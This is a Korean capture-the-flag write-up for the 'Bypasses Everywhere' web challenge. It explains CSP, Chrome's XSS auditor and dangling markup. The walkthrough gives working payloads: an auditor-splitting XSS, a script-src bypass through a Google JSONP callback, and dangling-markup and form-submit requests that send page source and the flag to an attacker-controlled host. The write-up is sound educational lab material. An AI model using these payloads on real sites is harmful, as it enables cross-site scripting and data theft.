




# Bypasses Everywhere

I'm selling very valuable stuff for a reasonable amount of money (for me at least). Go check it out!

https://bypasses-everywhere.ctf.insecurity-insa.fr


**:warning:Notice**

다음을 참조함

https://corb3nik.github.io/blog/ins-hack-2019/bypasses-everywhere, 

https://github.com/InsecurityAsso/inshack-2019/blob/master/bypasses-everywhere/writeup.md


## Background

### 1. CSP(Content-Security-Policy)

> <https://developer.mozilla.org/ko/docs/Web/HTTP/CSP>

CSP란 직역하면 웹페이지의 컨텐츠에 대한 보안정책을 의미한다. 서버는 이 옵션을 `Response header`에 포함시켜 컨텐츠를 클라이언트에게 전송한다. 그러면 공격자가 `XSS`등을 통해 어떠한 악의적인 스크립트를 컨텐츠에 포함시키더라도, CSP를 만족하지 못하면 브라우저에서는 이를 무시한다.

대표적인 예로, `script-src`에 관한 정책에서 `www.google.com`을 설정할 경우, 스크립트의 `src attribute`가 `google.com`의 서브도메인이 아니면, 이 스크립트는 무시된다. 따라서 공격자가 이런 CSP가 설정된 사이트에서 `<script>alert(1)</script>`와 같은 스크립트를 삽입하더라도, 이 스크립트는 실행되지 않는다.

다음과 같은 헤더를 삽입함으로써 CSP기능을 사용할 수 있다.


개발자 입장에서는 sanitize를 잘하는 것도 중요하지만, 헤더 한줄 넣는 것으로 이런 효과를 얻을 수 있으니, 보안적인 관점에서 봤을 때 굉장히 효율적이라고 볼 수 있다.

CSP에는 `script-src`말고도 굉장히 다양한 옵션이 있으니 모르는 옵션이 나오면 위의  `reference`를 잘 읽어보자. mozilla에서 docs를 아주 잘 써놨다. :clap:

---

### 2. XSS audit

> refs
>
> https://www.chromium.org/developers/design-documents/xss-auditor>
>
> http://www.collinjackson.com/research/xssauditor.pdf

위의 CSP가 대부분의 브라우저에서 지원하는 보안 옵션이라면, 크롬에는 크롬만의 `XSS auditor`이라는 보안 기능이 있다. 이 기능은 `reflected XSS`를 차단하는 기능을 한다.

`reflected XSS`란 클라이언트가 보낸 HTTP query parameter(GET, POST의 인자)들을 제대로 sanitize하지 않고 그대로 server-side script에 넣고 실행하면서 발생하는 XSS취약점을 의미한다. CTF에서 흔히 볼 수 있는 XSS가 이 것이다. 

다행히 크롬의 `XSS auditor`가 완벽하지는 않기 때문에 우회가 가능하다.

위 레퍼런스의 performace항목을 읽어보면

> ## Performance
>
> Processing costs are essentially zero unless the URL or POST body includes any of the four characters **" > <** **'**. When those characters are found, we only invoke heavy processing on those attributes that might be dangerous. This stands in contrast to the XSS Filter in Internet Explorer, which runs costly regular expressions.

`" > < '`의 4가지 특수문자가 URL또는 POST의 바디에 포함되면 `reflection`검사를 한다고 하는데, 이 검사를 request가 반영된 완성된 html파일이 아니라 개별 attribute에 대해 수행하는 것 같다. 따라서 만약 두개의 attribute를 request를 통해 조작할 수 있다면, XSS 커맨드를 둘로 분할하여 작성하여 이 auditing을 피해갈 수 있다.(자세한 내용은 공식 문서를 읽어봐야 알 수 있을듯 하다.)

:point_right:Example

`http://example.com?q=<script>alert(1);</script>` :x:

`http://example.com?q1=<script>ale&q2=rt(1);</script>`​ :o:

---

### 3.Dangling markup

> ref : https://portswigger.net/blog/evading-csp-with-dom-based-dangling-markup

`Dangling markup`은 html의 태그를 닫지 않음으로써 수행할 수 있는 공격기법이다. 가령 다음과 같은 코드가 있다고 하자.

```html
INJECTION HERE <b>test</b>
<script>
token = 'supersecret';
</script>
<form action="blah"></form>
```


여기서 token을 탈취하려 한다면 보통 XSS를 사용하여 html의 내용을 전송받는다. 그런데 `Dangling markup`은 XSS를 사용하는 것이 아니라 다음과 같은 내용을 삽입함으로써 공격을 수행한다.

```html
test</b>
<script>
token = 'supersecret';
</script>
<form action="blah"></form>
```

src의 `"`를 닫지 않았기 때문에, src뒤의 script태그까지 포함되어 공격자의 서버로 전송되게 된다. 

이런식으로 일부러 태그를 닫지 않음으로써 태그 다음의 내용을 탈취하는 공격기법을 `Dangling markup`이라고 한다. 이 공격의 단점은 <u>삽입된 태그 이후의 내용밖에 탈취하지 못한다.</u>

---

## Analyze

`/article`, `/admin` 단 두개의 서브 디렉토리만 있는 간단한 웹사이트이다.

### 1./article

**Is XSS available?**

GET의 인자로 name, time, unit, img를 받는다.

몇 번 시도를 해보면 name과 img은 특수문자를 이스케이프하는 반면, time과 unit은 이스케이프처리를 하지 않는다는 것을 알게된다. 따라서 이 두 인자를 공략하여 공격하면 될 것이다. 

time에 `<script>alert(1)</script>`를 한번에 넣게 되면 `XSS audit`에 걸리게 된다.



탐지된 상태에서 `Ctrl-U`를 눌러 소스를 보면 문제가 된 부분을 확인할 수 있다.




다행히 `time`과 `unit`이 연속된 인자이기 때문에, XSS 스크립트를 둘로 분할하여 이를 우회할 수 있다.



그러나 삽입한 스크립트가 실행되진 않는다. 🤨

**Let's see CSP detail,**

이는 CSP때문인데,  다음과 같은 CSP가 설정돼 있다.


해석하면 다음과 같은 보안정책이 설정돼 있다.

- `script-src www.google.com` : script의 src attribute가 www.google.com의 suburl이 아닐경우 실행하지 않는다.
- `img-src *` : img의 src는 무엇이든 상관없다.
- `default-src none` : 정의돼있지 않은 CSP의 `*-src`항목은 모든 url에 대해 `deny`한다고 해석하면 거의 맞다. 자세한 것은 레퍼런스 참조.
- `style-src unsafe-inline` : inline script를 허용한다. (`<script>, javascript:, onerror 같은 callback, <style>` 등 )


첫번째 정책인 `script-src`를 만족하지 못하기 때문에 `<script>alert(1);</script>`는 실행될 수 없다. 

위의 정책들 중 `default-src none`은 상당히 중요한 정책인데, `default-src`가 `none`으로 설정될 경우, 많은 `[.*]-src `꼴의 CSP항목들은 명시적으로 정의되지 않으면, 모두 `deny`된다. 

그 중 `connect-src`가 포함되는데 `connect-src`는 다음에 관련된 정책이다.

- <a> ping
- Fetch
- XMLHttpRequest
- WebSocket
- EventSource

`connect-src`에 대한 정책이 수립되지 않았으므로, 위의 행위는 모든 `url`에 대해 금지된다. 


**:point_right:In summary**

`/article`페이지에서  XSS는 가능하지만 `google.com`을 통해 들어온 script에 대해서만 허용되며, 이 페이지를 통한 통신은 사실상 불가능하다.

---

### 2./admin

이 페이지는 문제의 풀이 방향을 친절히 알려준다. 

- `server admin`이 로컬에서 `admin`페이지에 접근하면 `admin`페이지에 어떤 다른 내용이 나타난다는 것
- URL을 입력하면 그 URL에 친히 `admin`이 방문한다는 것.

위 두 정보를 종합해보면, ''어떤 악의적인 URL에 서버 admin이 접근하게 하여 admin페이지의 숨겨진 정보를 내 서버에 전송하도록 해야겠다'는 목표를 우선 세울 수 있다.


**Is it vulnerable page?**

우선 이 페이지는 상당히 취약한 페이지이다. img의 src를 입력받을 수 있는데, 여기에 어떤 문자열을 넣어도 이스케이프 처리하지 않고 그대로 html페이지에 반영된다. 

XSS의 경우, 단일 인자로는 크롬의 auditor를 피해가기 어려우므로 불가능해 보인다. 

다음으로 생각해 볼 수 있는 것이 `Dangling Markup`이다. 숨겨진 내용이 정확히 어디에 위치할 지는 모르지만, 일단 이 공격은 가능하므로 한번쯤 시도해 볼 수 있다.


**how to know admin's browser**

본격적인 공격을 수행하기 전에, 우선 admin이 무슨 브라우저를 통해 방문하는 지를 알아봐야 한다. 만약 크롬을 사용하지 않는다면 `XSS-auditor`은 걱정하지 않아도 된다. 이를 위해 서버의 포트를 열고, 패킷을 하나 받아보자.

```bash
Listening on [0.0.0.0] (family 0, port 1338)
Connection from ip-51-83-110.eu 45792 received!
GET / HTTP/1.1
Host: (censored)
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/73.0.3683.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
```

user-agent를 통해 chrome의 light버전인 HeadlessChrome을 사용함을 확인할 수 있다. 따라서 `XSS-auditor`은 반드시 bypass해야 하며, XSS는 article페이지에서만 발생시킬 수 있다.


**:point_right:In summary**

admin이 악의적인 URL에 접속하게 하여 server source를 leak해야 한다.

---

### 1.Leak admin src page

admin페이지의 src를 숨겨진 정보를 탈취하기 위해 `admin`페이지에서 `dangling markup`을 시도해볼 수 있다. 

다음의 request를 보내자

```http
POST /url HTTP/1.1
(blah)
Conetnt-TYpe: application/x-www-form-urlencoded
(blah)

url=http%3A%2F%2F127.0.0.1%3A8080%2Fadmin%3Fpicture%3D%22%3E%3Cimg+src%3D%27http%3A%2F%2F(YOURIP)%3A(YOURPORT)%2F%3Fp%3D
```


그리고 IP:PORT에서 리스닝하고 기다리면

```http
GET /?p=%22%3Efrom%20flask%20import%20request,%20render_templatefrom%20flask_csp.csp%20import%20csp_headerimport%20requestsimport%20rewith%20open(%22flag.txt%22)%20as%20f:%20%20%20%20FLAG%20=%20f.read()def%20_local_access()%20-%3E%20bool:%20%20%20%20if%20request.referrer%20is%20not%20None%20and%20not%20re.match(r%22^http://127\.0\.0\.1(:\d+)?/%22,%20request.referrer):%20%20%20%20%20%20%20%20return%20False%20%20%20%20return%20request.remote_addr%20==%20%22127.0.0.1%22def%20routes(app,%20csp):%20%20%20%20@csp_header(csp)%20%20%20%20@app.route(%22/admin%22)%20%20%20%20def%20adm():%20%20%20%20%20%20%20%20url%20=%20request.args.get(%22picture%22)%20%20%20%20%20%20%20%20if%20_local_access():%20%20%20%20%20%20%20%20%20%20%20%20with%20open(__file__)%20as%20f:%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20code%20=%20f.read()%20%20%20%20%20%20%20%20else:%20%20%20%20%20%20%20%20%20%20%20%20code%20=%20None%20%20%20%20%20%20%20%20return%20render_template(%22admin.html%22,%20url=url,%20code=code)%20%20%20%20@csp_header(csp)%20%20%20%20@app.route(%22/article%22,%20methods%20=%20[%22POST%22])%20%20%20%20def%20secret():%20%20%20%20%20%20%20%20try:%20%20%20%20%20%20%20%20%20%20%20%20assert%20_local_access()%20%20%20%20%20%20%20%20%20%20%20%20data%20=%20request.get_json(force=True)%20%20%20%20%20%20%20%20%20%20%20%20assert%20data[%22secret%22]%20==%20%22No%20one%20will%20never%20ever%20access%20this%20beauty%22%20%20%20%20%20%20%20%20%20%20%20%20requests.post(data[%22url%22],%20data={%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22flg%22:%20FLAG,%20%20%20%20%20%20%20%20%20%20%20%20},%20timeout=2)%20%20%20%20%20%20%20%20%20%20%20%20return%20%22yeah!%22%20%20%20%20%20%20%20%20except%20Exception%20as%20e:%20%20%20%20%20%20%20%20%20%20%20%20app.logger.error(e)%20%20%20%20%20%20%20%20%20%20%20%20return HTTP/1.1
Host: (censored)
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/73.0.3683.75 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://127.0.0.1:8080/admin?picture=%22%3E%3Cimg%20src=%27(censored)/?p=
Accept-Encoding: gzip, deflate
```

 admin페이지의 숨겨진 소스를 leak할 수 있다. 

urldecode를 통해 복원하고 formatting을 하면 admin.py는 다음과 같다.

```python
from flask import request, render_template
from flask_csp.csp import csp_header
import requests
import re

with open("flag.txt") as f:
    FLAG = f.read()

def _local_access() -> bool:
    if request.referrer is not None and not re.match(r"^http://127\.0\.0\.1(:\d+)?/", request.referrer):
        return False
    return request.remote_addr == "127.0.0.1"

def routes(app, csp):
    @csp_header(csp)
    @app.route("/admin")
    def adm():
        url = request.args.get("picture")
        if _local_access():
            with open(__file__) as f:
                code = f.read()
        else:
            code = None
        return render_template("admin.html", url=url, code=code)

    @csp_header(csp)
    @app.route("/article", methods = ["POST"])
    def secret():
        try:
            assert _local_access()
            data = request.get_json(force=True)
            assert data["secret"] == "No one will never ever access this beauty"
            requests.post(data["url"], data={
                "flg": FLAG,
            }, timeout=2)
            return "yeah!"
        except Exception as e:
            app.logger.error(e)
            return
```

출제자의 write-up을 읽어보니 이게 의도된 풀이라고 한다. 숨겨진 정보가 `img`태그 뒤에 있을 것이란 것은 게싱이 필요한 부분이 아닌가 싶다.🤔


**Analyze admin.py**

`admin.py`에 등록된 라우팅 기능을 정리하면

1.  로컬호스트 8080으로 접근하면 소스코드를 보여준다.
2.  로컬 액세스를 통해 `/article`에 POST로  `secret`값을 넣어주면 `url`로 flag를 돌려준다.

:point_right:2번이 다음 공략 목표이며, 이를 위해서 `XSS`가 필요하다.

---

### 2.Bypass CSP & get the flag

XSS를 하기 위해 `article` 페이지의 취약점을 이용해야 한다. 그러려면 CSP의 `script-src google.com`을 우회해야 한다.


**Bypass 'script-src google.com' @vakzz**

원작자의 라이트업을 읽으면서 가장 기발하다고 느꼈던 부분인데, `google.com`을 통해 원하는 스크립트를 넣을 수 있는 방법이 존재한다.

이는 google.com의 다음 URL을 통해 가능하다.

`https://www.google.com/complete/search?client=chrome&q=hello&callback=my_function`

URL에 여러 키워드를 사용하여 접근해보면, 클라이언트가 검색을 요청한 단어에 대해 가능한 자동완성 리스트를 뽑아주는 URL임을 추측할 수 있다. 그런데, 이 URL의  `callback`이라는 인자에 어떤 함수를 넣으면 그 함수에 자동완성 리스트를 인자로 넣어서 실행하는 스크립트를 만들어 준다.😮 

따라서 다음의 URL로 `script-src google.com`을 우회할 수 있다.

`https://bypasses-everywhere.ctf.insecurity-insa.fr/article?time=%3Cscript%20src=&unit=%22https://www.google.com/complete/search?client=chrome%26q=1%26callback=alert%22%3E%3C/script%3E`



It's awesome. :clap:

---

**Get the flag**

이제 XSS가 가능하니, admin이 로컬호스트에 json형식으로 적당한 `secret`을 `article`에 넘겨주게만 하면 `flag`를 획득할 수 있다.

다음의 request를 전송하면 flag를 서버로 부터 받아올 수 있다.

[request]

```http
POST /url HTTP/1.1
(blahblah headers)

url=http%3A%2F%2F127.0.0.1%3A8080%2Farticle%3Ftime%3D%3Cform+method%3Dpost+enctype%3Dtext%2Fplain%3E%3Cinput+name%3D%27%7B%22secret%22%3A%22No+one+will+never+ever+access+this+beauty%22%2C%22url%22%3A%22(censored)%3A8000%22%2C%22a%22%3A%22%27+value%3D%27%22%7D%27%3E%3C%2Fform%3E%3Cscript+src%3Dhttps%3A%2F%2Fww%26unit%3Dw.google.com%2Fjsapi%3Fcallback%3Ddocument.forms%5B0%5D.submit%3E%3C%2Fscript%3E
```

```html
[URL decoded]
http://127.0.0.1:8080/article?time=<form method=post enctype=text/plain><input name='{"secret":"No one will never ever access this beauty","url":"(censored)","a":"' value='"}'></form><script src=https://ww&unit=w.google.com/jsapi?callback=document.forms[0].submit></script>
```


[response]

```http
POST / HTTP/1.1
Host: (censored)
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 81
Content-Type: application/x-www-form-urlencoded

flg=INSA%7Bf330a6678b14df79b05f63040537b384e4c87c87525de8d396b43250988bdfaa%7D%0A
```

:triangular_flag_on_post:

